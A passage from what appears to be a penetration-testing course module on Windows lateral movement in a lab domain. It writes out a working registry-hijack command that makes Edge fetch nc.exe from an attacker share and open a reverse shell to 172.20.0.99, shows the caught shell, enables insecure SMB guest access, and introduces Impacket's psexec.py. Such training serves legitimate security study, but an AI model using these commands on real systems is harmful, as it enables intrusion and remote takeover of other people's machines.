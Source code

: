 ```powershell
PS C:\Tools> reg.exe add "\\srv02.inlanefreight.local\HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\msedge.exe" /v Debugger /t reg_sz /d "cmd /c copy \\172.20.0.99\share\nc.exe && nc.exe -e \windows\system32\cmd.exe 172.20.0.99 8080"

The operation completed successfully.

```

Once Microsoft Edge is opened by any user in the domain, we will instantly get a reverse shell:

```shell
nc -lvnp 8080
Listening on 0.0.0.0 8080
Connection received on 172.20.0.52 51096

C:\Program Files (x86)\Microsoft\Edge\Application>

```

It is important to keep in mind that to use SMB share folder without authentication we need to have the following registry key set to `1`:

```powershell
PS C:\Tools> reg.exe query HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /v AllowInsecureGuestAuth

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters
    AllowInsecureGuestAuth    REG_DWORD    0x0

```

The above registry key is responsable for allowing guest access in SMB2 and SMB3 which is disable by default on Windows. If have an account with administrative rights, we can use the following command to allow insecure guest authentication:

```powershell
PS C:\Tools> reg.exe add HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /v AllowInsecureGuestAuth /d 1 /t REG_DWORD /f
The operation completed successfully.

```

## Lateral Movement From Linux

To achieve lateral movement from Linux we can use the [Impacket](https://github.com/fortra/impacket) tool set. `Impacket` is a suite of Python libraries designed for interacting with network protocols. It focuses on offering low-level programmatic control over packet manipulation and, for certain protocols like `SMB` and `MSRPC`, includes the protocol implementations themselves.

### Psexec.py

[Psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py) is a great alternative for Linux users. This method is very similar to the traditional `PsExec` tool from SysInternals suite. `psexec.py` creates a remote service by uploading an executable with a random name to the `ADMIN$` share on the target Windows machine. It then registers this service via RPC and the Windows Service Control Manager. Once registered, the tool establishes communication through a named pipe, allowing for the execution of commands and retrieval of outputs on the remote system. Understanding this mechanism is crucial for effectively utilizing the tool and appreciating its role in facilitating remote command execution.
